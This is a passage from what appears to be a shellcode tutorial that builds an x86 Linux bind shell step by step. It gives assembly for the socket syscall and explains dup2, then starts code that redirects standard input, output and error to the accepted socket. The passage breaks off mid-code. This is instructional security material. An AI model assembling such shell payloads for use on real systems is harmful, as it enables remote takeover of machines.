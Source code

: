   
**Assembly Code:**

	; EBX
	xor ebx, ebx
	push ebx ; push the x00000000 on the stack
	inc ebx ; SYS_SOCKET call 1 for socket
	push ebx ; push the 0x00000001 on the stack for the domain AF_INET of the SYS_SOCKET call 
	; ECX
	push byte 0x2 ; push the 0x00000002 on the stack for the type SOCK_STREAM
	mov ecx, esp ; put the arguments of the socketcall into ECX
	; EAX
	xor eax, eax
	mov al, 0x66
	; socket call
	int 0x80


###  <span style="color:#2d8fb3;"> Dup2 </span>

The next step is to redirect the STDIN, STDOUT and STDER to the socket session. The dup2() system call allocate a new file descriptor that refers to the same open file description as the descriptor oldfd. The file descriptor newfd is ajusted so that it refers to the same open file desdcription as oldfd. 

    root@kali:~# cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep dup2
        #define __NR_dup2 63

-

    man 2 dup2
    int dup2(int oldfd, int newfd)

The function is composed of:

1) int oldfd : File descriptor returned by the socket syscall

2) int newfd : File descriptor that we want to refer to

We will pass the following arguments :
- EAX : 0x3f (dup syscall, 63 in decimal)
- EBX : Previous EAX (File descriptor returned by the accept call)
- ECX : 0x2 to 0x0 (loop IN, OUT, ERR)

To perform the loop, we will use the intruction "JNS rel8" because it perform the jmp until the Sign Flag is set (SF=1), which mean that the zero is taken into account in the loop :

**Assembly Code:**

        ; EBX, File descriptor return by ACCEPT call
	    mov ebx, eax	; Retrieve the file descriptor
	
	    ; EAX, dup2 sys call 0x3f
	    xor eax, eax
	
	    ; initialize ECX 
	    mov ecx, 0x2
	